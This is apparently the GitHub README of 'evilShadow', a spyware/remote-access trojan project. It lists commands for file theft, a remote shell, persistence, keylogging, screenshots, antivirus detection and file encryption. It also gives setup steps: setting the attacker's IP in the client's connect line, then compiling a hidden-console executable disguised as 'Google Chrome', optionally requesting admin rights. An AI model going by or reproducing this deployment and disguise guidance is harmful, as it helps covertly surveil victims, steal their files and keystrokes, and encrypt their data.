 # evilShadow

SpyWare. The project is currently developing…...


# Functions
(N/A) -> Not Implemented yet
```
                Aviable Commands:

                    | [!>] download <path>   -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] downloadDir <dir> -> Download A File From Target PC
                    ---------------------------------------------------------
                    | [!>] startTask         -> Monitoring & kill tasks managers
                    ---------------------------------------------------------
                    | [!>] check             -> Check For Administrator Privileges
                    ---------------------------------------------------------
                    | [!>] sysinfo           -> Get System Information
                    ---------------------------------------------------------
                    | [!>] shell             -> Enter Shell Mode 
                    ---------------------------------------------------------
                    | [!>] av                -> Try Detect Anti-Virus
                    ---------------------------------------------------------
                    | [!>] upload <path>     -> Upload local File To Target PC
                    ---------------------------------------------------------
                    | [!>] get <url>         -> Download A File To Target PC From Any Website
                    ---------------------------------------------------------
                    | [!>] persistence       -> Try to get persistence (needed root)
                    ---------------------------------------------------------
                    | [!>] lowpersistence    -> Try to get persistence (no root)
                    ---------------------------------------------------------
                    | [!>] exec <command>    -> Exec command in no shell mode
                    ---------------------------------------------------------
                    | [!>] cryptDir <dir>    -> Crypt a full folder in target
                    ---------------------------------------------------------
                    | [!>] crypt <file>      -> Crypt a file in target
                    ---------------------------------------------------------
                    | [!>] keylog_dump       -> Dump The Keystrokes From Keylogger
                    ---------------------------------------------------------
                    | [!>] screenshot        -> Take a screenshot
                    ---------------------------------------------------------
                    | [!>] cryptAll          -> (N/A) Close connex and crypt full system
                    ---------------------------------------------------------
                    | [!>] destruction       -> (N/A) Eliminate all and close conect
                    --------------------------------------------------------- 
                    | [!>] q                 -> Suspend the conection
                    ---------------------------------------------------------
                    | [!>] exit              -> Terminate the conection
                    ---------------------------------------------------------
```

# Detections:
![image](https://github.com/an0mal1a/evilShadow/assets/129337574/684c71c5-eef2-41f4-bc99-82dd05dbe260)
hash: 8f361df2687c1d5ac2c9a251ab8903cea2de914305420842b566726926903b5b


# Requirements

- ```pip install -r requirements.txt```


# Preparación:

En el script **Connection.py** en la línea *239* tenemos la línea que crea la conexión. La modificamos a la direccion ip
del atacante

-     sock.connect ( ( '127.0.0.1' ,1337) )

Una véz hecho esto podremos ejecutar el script, no requerimos de ningún cambio más.


# **Compilación**

- Tenemos varias opciones: (Accedemos a la carpeta CLIENT)

    ### Windows:
  
    - Admin Required:
      
        `client>pyinstaller --onefile --noconsole --clean --uac-admin -n "Google Chrome" conection.py`

    - **NO** Admin Required:
      
        `client>pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

    ### Linux:
      
    `client>pyinstaller --onefile --noconsole --clean -n "Google Chrome" conection.py`

